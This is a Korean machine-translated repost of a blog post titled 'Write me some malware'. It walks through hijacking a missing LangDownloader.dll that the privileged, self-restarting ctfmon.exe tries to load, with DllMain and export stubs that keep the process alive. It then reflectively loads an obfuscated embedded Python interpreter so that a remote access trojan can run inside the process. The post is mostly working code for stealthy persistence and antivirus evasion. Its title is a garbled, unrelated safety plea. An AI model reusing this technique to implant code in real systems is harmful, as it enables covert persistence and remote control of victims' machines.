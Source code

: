 ```yaml
---
title: "제발 합법적인 방식으로 지식을 확장하거나 온라인 커뮤니티에서 도움을 받아보는 것을 고려해보세요 안전한 온라인 활동이 중요하며 악의적인 목적으로 행동하는 것은 부디 자제해 주세요 함께 안전한 인터넷 환경을 만들어 나갈 수 있기를 바랍니다"
description: ""
coverImage: "/assets/img/2024-06-19-Writemesomemalware_0.png"
date: 2024-06-19 01:15
ogImage: 
  url: /assets/img/2024-06-19-Writemesomemalware_0.png
tag: Tech
originalTitle: "Write me some malware"
link: "https://medium.com/@shaharb02/write-me-some-malware-fbfd131db495"
---
```



(연구 목적으로만 사용)

# 이루고 싶은 것:

# 어떻게 로드할 것인가:

Windows에는 ctfmon.exe라는 멋진 프로세스가 있습니다. 이 프로세스를 좋아하는 이유가 몇 가지 있어요.

<div class="content-ad"></div>


![이미지](/assets/img/2024-06-19-Writemesomemalware_0.png)

- 높은 권한에서 실행됩니다.
- 충돌/중단 시 다시 시작하는 서비스가 있습니다.
- 모든 Windows 컴퓨터에서 실행됩니다.


<div class="content-ad"></div>

해당 프로세스 내에서 실행하고 싶긴 한데, 어떻게 해야할지가 문제야.

"virtual alloc — create remote thread" 방법으로 내 자신을 주입할 수 있지만, 안티바이러스들이 이미 알고 있고 그 방법은 너무 2012년식이야. 더 나은 방법을 고민해봐야겠어.

## ctfmon.exe에 로드하는 멋진 방법 찾기

Procmon을 실행하고 ctfmon.exe를 다시 시작해서 무슨 일을 하는지 확인해봐.

<div class="content-ad"></div>


<img src="/assets/img/2024-06-19-Writemesomemalware_1.png" />

음... ctfmon.exe이 LangDownloader.dll이라는 동적 라이브러리를 로드하려고 하는 것 같지만 찾을 수 없네요. 제 컴퓨터에 있는지 확인해보겠습니다.

<img src="/assets/img/2024-06-19-Writemesomemalware_2.png" />

LangDownloader.dll이 없습니다... 하나 만들어 시스템32에 넣어 ctfmon.exe를 다시 시작해보겠습니다.


<div class="content-ad"></div>

```js
BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {

    case DLL_PROCESS_ATTACH:
        {
        MessageBoxA(0, std::to_string(GetCurrentProcessId()).c_str(), 0, 0);
        break;
        }
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

메시지 상자를 표시하지만 ctfmon.exe가 종료됩니다. 무언가 잘못하고 있는 것 같아요 :(

LangDownloader.dll이 어떻게 로드되는지 자세히 파악하여 더 나은 모방을 하고 충돌을 방지하고 싶어요. ctfmon.exe를 좀 더 자세히 살펴보는 것이 가장 좋은 방법인 것 같아요.

![이미지](/assets/img/2024-06-19-Writemesomemalware_3.png)


<div class="content-ad"></div>

이 static imports만 있는 것을 볼 수 있습니다. LangDownloader.dll은 여기 없는데요... 어디서 불러오는 걸까요?

Procmon으로 돌아가보면 무언가를 발견할 수도 있을 거에요

![image](/assets/img/2024-06-19-Writemesomemalware_4.png)

여기 보세요. InputLocaleManager.dll을 불러오고 있네요. 이 파일을 조사해봅시다.

<div class="content-ad"></div>

해당 문자열을 찾았습니다!

![image](/assets/img/2024-06-19-Writemesomemalware_5.png)

여기서 잘 로드되고 있네요. 이제 뭘 할까요?

![image](/assets/img/2024-06-19-Writemesomemalware_6.png)

<div class="content-ad"></div>

한번 확대해볼까요? 저희에게 pdb 파일이 있어요 (:

![image 1](/assets/img/2024-06-19-Writemesomemalware_7.png)

![image 2](/assets/img/2024-06-19-Writemesomemalware_8.png)

이 코드를 한 번 분석해 봐요.

<div class="content-ad"></div>

```js
• LangDownloader.dll을로드하려고 시도합니다.
• 실패하는 경우
  - “종료”로 계속 진행합니다.
• 성공하는 경우
  - LangDownloaderCreate의 주소를 가져오려고 시도합니다.
  - 실패하는 경우
     프로세스 종료
  - 성공하는 경우
     매개변수와 함께 LangDownloaderCreate를 호출합니다
```

지금까지 잘 됐어요. 이것은 왜 ctfmon.exe가 실행할 LangDownloader.dll이라는 임의의 .dll을 제공했을 때 충돌했는지를 설명합니다.

<img src="/assets/img/2024-06-19-Writemesomemalware_9.png" />

우리는 0보다 작고 0x800700E와 다른 숫자를 반환하면 우리는 그냥 계속 진행할 것임을 볼 수 있습니다... 내가 신경 쓰지 않으니까 무한 대기를 해봅시다.


<div class="content-ad"></div>

```js
extern "C" __declspec(dllexport) int LangDownloaderCreate(int a, int b)
{
    // 영원히 기다려요
    HANDLE never_set = CreateEventA(NULL, TRUE, FALSE, NULL);
    WaitForSingleObject(never_set, INFINITE);

    return -1;
}
```

알겠어요!

![이미지](/assets/img/2024-06-19-Writemesomemalware_10.png)

이제 실행 중이니까... 뭘 하고 싶어요?

<div class="content-ad"></div>

# 무엇을 실행할까요:

제 .dll 내부에 인터프리터를 실행하고 싶어요... 파이썬이 어떻게 하는지 살펴봐요

배운 바에 의하면, 파이썬은 python`버전`.dll을 사용해서 모든 파이썬 작업을 처리해요

이 .dll을 멋지게 C++ 인터페이스로 감싸봐요

<div class="content-ad"></div>

```js
class PythonInterpreter
{
public:
    explicit PythonInterpreter();
    ~PythonInterpreter();

    NO_DISCARD void* run_line(const std::string& line);

    // Deleted Functions
    PythonInterpreter(const PythonInterpreter& other) = delete;
    PythonInterpreter(PythonInterpreter&& other) = delete;
    PythonInterpreter& operator=(const PythonInterpreter& other) = delete;
    PythonInterpreter& operator=(PythonInterpreter&& other) = delete;

private:
    using PyObject = int;

    using PyInitializeType = void (*)();
    using PyFinalizeType = void (*)();
    using PyRunSimpleStringType = PyObject * (*)(const char* str);

    // Members
    DynamicLibrary m_python_interpreter_library;
    PyInitializeType m_initialize;
    PyFinalizeType m_finalize;
    PyRunSimpleStringType m_run_simple_string;
};

PythonInterpreter::PythonInterpreter() :
    m_python_interpreter_library(WindowsResource::get_resource(GetModuleHandleA(OBFUSCATE("LangDownloader.dll")),
                                                               IDR_BINARY1,
                                                               OBFUSCATE("Binary"))),
    m_initialize(static_cast<PyInitializeType>(m_python_interpreter_library.get_function(OBFUSCATE("Py_Initialize")))),
    m_finalize(static_cast<PyFinalizeType>(m_python_interpreter_library.get_function(OBFUSCATE("Py_Finalize")))),
    m_run_simple_string(static_cast<PyRunSimpleStringType>(m_python_interpreter_library.get_function(OBFUSCATE("PyRun_SimpleString"))))
{
    m_initialize();
}
```

이제 적절한 파이썬 인터프리터가 준비되어 있으므로, LangDownlder.dll에 통합하여 반사적으로 로드할 수 있습니다.

DynamicLibrary 클래스를 만들어야 합니다.

```js
class DynamicLibrary
{
public:
    explicit DynamicLibrary(ByteSpan library_binary);
    ~DynamicLibrary();

    NO_DISCARD void* get_function(const std::string& function_name);

    // Deleted Functions
    DynamicLibrary(const DynamicLibrary& other) = delete;
    DynamicLibrary(DynamicLibrary&& other) = delete;
    DynamicLibrary& operator=(const DynamicLibrary& other) = delete;
    DynamicLibrary& operator=(DynamicLibrary&& other) = delete;

private:
    NO_DISCARD static HMEMORYMODULE load_library(ByteSpan library_binary);

    // Members
    HMEMORYMODULE m_library_base;
};
```

<div class="content-ad"></div>

이제 ctfmon.exe 내부에 파이썬 인터프리터가 있습니다!

![이미지](/assets/img/2024-06-19-Writemesomemalware_11.png)

정말 멋지죠? 

이제 남은 일은 파이썬으로 RAT을 작성하는 것뿐입니다.

<div class="content-ad"></div>

미안해요! 전손을 올립니다(:

![Image](/assets/img/2024-06-19-Writemesomemalware_12.png)